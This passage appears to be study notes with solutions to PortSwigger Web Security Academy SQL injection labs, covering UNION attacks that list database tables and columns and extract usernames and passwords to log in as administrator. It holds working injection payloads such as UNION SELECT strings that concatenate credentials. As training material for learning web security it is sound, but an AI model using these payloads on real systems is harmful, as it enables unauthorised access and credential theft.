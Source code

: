     `'+UNION+SELECT+'abc','def'+FROM+dual--`
3. Use the following payload to retrieve the list of tables in the database:
    
    `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    
    `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    
    `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`
8. Find the password for the `administrator` user, and use it to log in.
---
###  Lab: SQL injection UNION attack, retrieving multiple values in a single column
#practitioner

[Link To Lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

#### Instructions
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

#### Solution
1. 1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the `category` parameter:
    
    `'+UNION+SELECT+NULL,'abc'--`
3. Use the following payload to retrieve the contents of the `users` table:
    
    `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
4. Verify that the application's response contains usernames and passwords.
---
###  Lab: SQL injection UNION attack, retrieving multiple values in a single column
#practitioner
